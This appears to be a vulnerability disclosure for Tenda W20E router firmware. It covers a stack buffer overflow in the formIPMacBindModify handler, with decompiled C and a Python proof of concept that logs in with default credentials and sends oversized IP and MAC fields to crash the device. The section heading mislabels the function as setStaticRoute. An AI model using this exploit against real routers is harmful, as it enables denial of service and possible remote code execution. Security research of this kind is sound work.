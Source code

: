 # Tenda W20E

### version

```
V15.11.0.6 （US_W20EV4.0br_V15.11.0.6（1068_1546_841）_CN_TDC）
```

### Firmware

```
https://www.tenda.com.cn/download/detail-2707.html
```



## setStaticRoute

### detail

In function formIPMacBindModify,the content obtained by the program from the parameter "IPMacBindRuleIp" and"IPMacBindRuleMac" are passed to ip and mac.Then the ip and mac are directly copied into the tmp stack through the sprintf function.There is no size check, so there is a stack overflow vulnerability.The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data.

```c
void __cdecl formIPMacBindModify(webs_t wp, unsigned __int8 *path, unsigned __int8 *query)
{
  int v3; // r0
  int v4; // r0
  int v5; // r0
  int v6; // r0
  int v7; // r0
  unsigned __int8 mibName[128]; // [sp+24h] [bp-618h] BYREF
  unsigned __int8 ruleId[128]; // [sp+A4h] [bp-598h] BYREF
  unsigned __int8 msg[512]; // [sp+124h] [bp-518h] BYREF
  unsigned __int8 tmp[512]; // [sp+324h] [bp-318h] BYREF
  unsigned __int8 slctLst[128]; // [sp+524h] [bp-118h] BYREF
  unsigned __int8 out[128]; // [sp+5A4h] [bp-98h] BYREF
  int index; // [sp+624h] [bp-18h]
  unsigned __int8 *remark; // [sp+628h] [bp-14h]
  unsigned __int8 *mac; // [sp+62Ch] [bp-10h]
  unsigned __int8 *ip; // [sp+630h] [bp-Ch]
  unsigned __int8 *ruleIndex; // [sp+634h] [bp-8h]

  *(_DWORD *)out = 49;
  memset(&out[4], 0, 0x7Cu);
  *(_DWORD *)slctLst = 0;
  memset(&slctLst[4], 0, 0x7Cu);
  *(_DWORD *)tmp = 0;
  memset(&tmp[4], 0, 0x1FCu);
  *(_DWORD *)msg = 0;
  memset(&msg[4], 0, 0x1FCu);
  ruleIndex = 0;
  ip = 0;
  mac = 0;
  remark = 0;
  ruleIndex = websGetVar(wp, "IPMacBindRuleId", "0");
  ip = websGetVar(wp, "IPMacBindRuleIp", "000:000:000:000");
  mac = websGetVar(wp, "IPMacBindRuleMac", "00:00:00:00:00:00");
  remark = websGetVar(wp, "IPMacBindRuleRemark", "hello");
  index = 0;
  *(_DWORD *)ruleId = 0;
  memset(&ruleId[4], 0, 0x7Cu);
  *(_DWORD *)mibName = 0;
  memset(&mibName[4], 0, 0x7Cu);
  v3 = atoi((const char *)ruleIndex);
  sprintf((char *)mibName, "security.ipbind.list%d", v3 + 1);
  GetValue((int)mibName, (int)slctLst);
  getKeyfrmLst(slctLst, ";", 0, ruleId);
  v4 = atoi((const char *)ruleIndex);
  listRm(IPMAC_BIND, v4 + 1);
  v5 = atoi((const char *)ruleId);
  sprintf(
    (char *)tmp,
    "%s;1;%s;%s;name%d;%s",
    (const char *)ruleId,
    (const char *)ip,
    (const char *)mac,
    v5,
    (const char *)remark);
  v6 = atoi((const char *)ruleIndex);
  ipmacBindRuleAdd(tmp, v6 + 1);
  listNumAdd("security.ipbind.list", 1);
  sprintf((char *)msg, "op=%d", 6);
  v7 = send_msg_to_netctrl(11, msg);
  CommitCfm(v7);
  outputToWebs(wp, out);
}
```



### poc

```python
import requests

cmd  = b'IPMacBindRuleId=' + b'9' 
cmd += b'&IPMacBindRuleIp=' + b'A' * 1000
cmd += b'&IPMacBindRuleMac=' + b'B' * 1000
cmd += b'&IPMacBindRuleRemark=' + b'A' * 500
cmd += b'&staticRouteWAN=' + b'A' * 20

url = b"http://192.168.0.1/login/Auth"
payload = b"http://192.168.0.1/goform/modifyIpMacBind/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()
```

